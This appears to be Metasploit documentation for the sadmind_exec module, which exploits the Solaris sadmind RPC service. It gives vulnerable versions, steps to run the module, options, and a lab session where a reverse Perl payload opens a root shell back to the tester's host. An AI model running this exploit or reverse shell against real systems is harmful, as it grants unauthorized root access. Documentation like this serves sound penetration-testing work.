 ## Vulnerable Application

This exploit targets a weakness in the default security settings of
the Sun Solstice AdminSuite distributed system administration daemon
(sadmind) RPC application. This server is installed and enabled by
default on most versions of the Solaris operating system.

Vulnerable systems include Solaris 2.7, 8, and 9.

This module has been successfully tested on:

* Solaris 8 02/00 (x86);
* Solaris 8u1 06/00 (x86);
* Solaris 8u2 10/00 (x86);
* Solaris 8u3 01/01 (x86);
* Solaris 8u4 04/01 (x86);
* Solaris 9u2 12/02 (x86).


## Verification Steps

1. Start `msfconsole`
1. Do: `use exploit/solaris/sunrpc/sadmind_exec`
1. Do: `set rhosts [rhost]`
1. Do: `exploit`
1. You should get a new session as the `root` user.


## Options

### HOSTNAME

Remote hostname. The hostname will be detected automatically by default;
however, using the automatically detected hostname will fail if the system
hostname was changed after the sadmind service was started.

### GID

GID to emulate (default: `0`)

### UID

UID to emulate (default: `0`)


## Scenarios

### Solaris 8u1 06/00 s28x_u1wos_08 INTEL (x86)

```
msf > use exploit/solaris/sunrpc/sadmind_exec
msf exploit(solaris/sunrpc/sadmind_exec) > set rhosts 192.168.200.148
rhosts => 192.168.200.148
msf exploit(solaris/sunrpc/sadmind_exec) > set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf exploit(solaris/sunrpc/sadmind_exec) > run
[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] 192.168.200.148:111 - Attempting to determine hostname
[*] 192.168.200.148:111 - Found hostname: unknown
[*] 192.168.200.148:111 - Sending payload (234 bytes)
[+] 192.168.200.148:111 - Exploit did not give us an error, this is good.
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.148:32810) at 2025-04-21 01:38:08 -0400

id
uid=0(root) gid=0(root)
uname -a
SunOS unknown 5.8 Generic_108529-01 i86pc i386 i86pc
cat /etc/release
                        Solaris 8 6/00 s28x_u1wos_08 INTEL
           Copyright 2000 Sun Microsystems, Inc.  All Rights Reserved.
                             Assembled 28 April 2000
```
